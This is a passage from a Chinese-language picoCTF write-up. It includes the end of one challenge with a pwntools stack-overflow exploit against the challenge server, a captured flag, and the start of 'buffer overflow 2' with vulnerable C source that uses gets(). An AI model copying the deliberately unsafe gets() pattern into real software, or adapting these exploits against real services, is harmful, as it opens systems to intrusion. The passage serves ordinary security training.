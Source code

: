 ```C
  vuln();
  return 0;
}
```

64位的栈溢出，前面的是32位的。

payload：

```python
from pwn import *

# io = process('./vuln')
io = remote('saturn.picoctf.net', 49518)

io.sendlineafter(b'Welcome to 64-bit. Give me a string that gets you the flag: ', 
	cyclic(64 + 8) + p64(0x40123B))
	
io.interactive()
```

picoCTF{b1663r_15_b3773r_11c407bc}

## 7. buffer overflow 2

源码：
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
```